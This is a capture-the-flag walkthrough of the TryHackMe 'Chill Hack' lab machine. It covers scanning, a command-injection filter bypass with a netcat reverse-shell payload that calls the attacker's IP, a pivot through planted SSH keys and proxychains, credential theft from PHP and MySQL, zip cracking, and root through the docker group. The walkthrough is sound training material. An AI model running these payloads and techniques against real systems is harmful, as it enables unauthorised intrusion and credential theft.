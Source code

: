 # Chill Hack

**Room Link:** [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>



A lot of commands ran will result in this page.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Command Injection

Used this to find a way to bypass the filter. by adding a \ in the middle of the first command, it treats the command as a new line so it allows us to run any command we want.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



**Web**

```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.186 1337 >/tmp/f
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

<figure><img src="../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Victim(apaar)**

```
netstat -at
curl localhost:9001
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (9).png" alt=""><figcaption></figcaption></figure>

### Pivot

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

```
copy id_rsa.pub to /home/apaar/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 apaar@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Found credentials for mysql in one of the php files.

**Victim(apaar)**

```
cat /var/www/files/index.php
```

<figure><img src="../../.gitbook/assets/image (27) (6).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
mysql -u root -p webportal
Password: !@m+her00+@db
```

**Victim(mysql)**

```
SHOW DATABASES;
use webportal;
SHOW TABLES;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (11).png" alt=""><figcaption></figcaption></figure>



Both set of credentials work on the login page, both bring up this page.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

Used no password

**Kali**

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/image (17) (6) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking Password Protected Zip Files

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
unzip backup.zip
Password: pass1word
```

<figure><img src="../../.gitbook/assets/image (24) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat source_code.php 
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

<pre><code>su anurodh
<strong>Password: !d0ntKn0wmYp@ssw0rd
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

anurodh is apart of a docker group which the other user was not apart of, looking at gtfo bins theres a way to get a shell so I tried it and got root

**Link:** [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

**Victim(anurodh)**

```
groups
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>









